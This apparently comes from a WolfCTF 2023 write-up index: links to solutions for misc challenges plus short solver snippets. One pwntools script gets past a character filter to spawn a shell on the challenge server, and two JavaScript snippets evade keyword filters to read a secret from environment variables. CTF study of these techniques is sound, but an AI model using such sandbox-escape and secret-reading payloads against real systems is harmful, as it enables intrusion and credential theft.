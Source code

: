 
## **misc**
### Escaped
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### We Will Rock You
- https://chrootcommit.github.io/WolvCtf2023
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### Limited Characters
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469

{{< details title="yuzu#0233" >}}
```python
from pwn import *

payload = '__import__("os").system("sh")'

def _(num):
  return "+".join(["1" for i in range(num)])

res = []
for char in payload:
  res.append(f'chr({_(ord(char))})')

payload = '+'.join(res) + "+repr(' ()+,.1<[]_cdehijlmnoprsy')[1]"
p = remote('limited-characters.wolvctf.io', 1337)
p.sendline(payload)
p.interactive()
```
{{< /details >}}
### Smuggler
- https://www.youtube.com/watch?v=OWSoZHIOdVM
### Abstract Art
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### yellsatjavascript
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469

{{< details title="xl00t#5697" open=true >}}
```javascript
log = console["log"];
buf = new Buffer("ZmxhZw==",'base64')["toString"]();
log(process['env'][buf]);
```
{{< /details >}}
{{< details title="bhu#7316" open=true >}}
```javascript
console['log'](process['env']['fl'+'ag'])
```
{{< /details>}}
### yellsatpython
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
